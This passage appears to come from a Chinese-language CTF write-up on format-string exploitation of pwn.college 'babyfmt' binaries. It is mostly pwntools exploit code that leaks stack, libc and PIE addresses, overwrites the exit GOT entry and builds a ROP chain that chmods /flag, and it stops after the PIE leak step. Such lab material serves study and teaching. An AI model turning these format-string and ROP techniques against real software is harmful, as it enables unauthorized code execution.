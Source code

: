 ```python

# 1. leak address &  *exit_got = loop_addr
payload = b"%*59$c%60$ln".ljust(16+3,b"a")
payload += b"%7$p".ljust(8,b"a")
payload += b"%58$s".ljust(8,b"a")
payload += p64(memset_got)+p64(loop_addr-0x2d) + p64(exit_got)
payload += b"/flag\x00\x00\x00"
p.send(payload)
p.recvuntil(b"a"*7)
leak_stack_addr = int(p.recv(14),16)
log.success(f"leak_stack_addr: {hex(leak_stack_addr)}")
p.recvuntil(b"a"*4)
leak_libc_addr = u64(p.recv(6).ljust(8,b"\x00"))
log.success(f"leak_libc_addr: {hex(leak_libc_addr)}")
flag_addr = leak_stack_addr+len(payload)-0x8
log.success(f"flag_addr: {hex(flag_addr)}")

# 2. double leave ret & rop
libc.address = leak_libc_addr-0x18bd90
rbp = leak_stack_addr-0x18d
rop_addr = leak_stack_addr-0x52d
payload = b"%*59$c%60$hn".ljust(16+3,b"a")  # step 1:  *rbp= rop_addr
payload += b"%*61$c%62$ln%63$ln".ljust(24,b"a") # step 2: *exit_got = leave_ret_addr; *(rbp+8) = leave_ret_addr
payload += p64((rop_addr&0xffff)-0x2d)+p64(rbp)
payload += p64(leave_ret-(rop_addr&0xffff)-7)+p64(exit_got) + p64(rbp+0x8)
payload += p64(0)+p64(pop_rdi_ret)+p64(flag_addr)+p64(pop_rsi_r15_ret)+p64(511)+p64(0)+p64(libc.symbols['chmod'])
p.send(payload)
p.interactive()
```

### 3.4.1 fmt+rop:但是PIE<br>
**绕过pie需要题目至少提高给你2次fmt的机会**<br>
```python
from pwn import *
context.log_level='debug'
context.os='linux'
context.arch='amd64'
context.terminal=['tmux','splitw','-h']

libc_path = "./libc-2.31.so"
binary_path = './babyfmt_level11.0'
#libc_path = "/lib/x86_64-linux-gnu/libc.so.6"
#binary_path = "/challenge/babyfmt_level11.0"
p = process(binary_path)
binary = p.elf
libc = ELF(libc_path)

gdb.attach(p,"b *$rebase(0x169A)\n b *$rebase(0x1638)")
pause()

# step 1: leak program_addr libc_addr stack_addr
payload = b"%3$p".ljust(8,b"a") #libc_addr
payload += b"%7$p".ljust(8,b"a") #stack_addr
payload += b"%199$p".ljust(8,b"a") # program_addr
p.send(payload)
p.recvuntil(b"Your input is:               \n")
libc_addr = int(p.recvuntil(b"aaaa").strip(b"aaaa"),16)
stack_addr = int(p.recvuntil(b"aaaa").strip(b"aaaa"),16)
program_addr = int(p.recvuntil(b"aa").strip(b"aa"),16)
log.success(f"libc_addr: {hex(libc_addr)}")
log.success(f"stack_addr: {hex(stack_addr)}")
```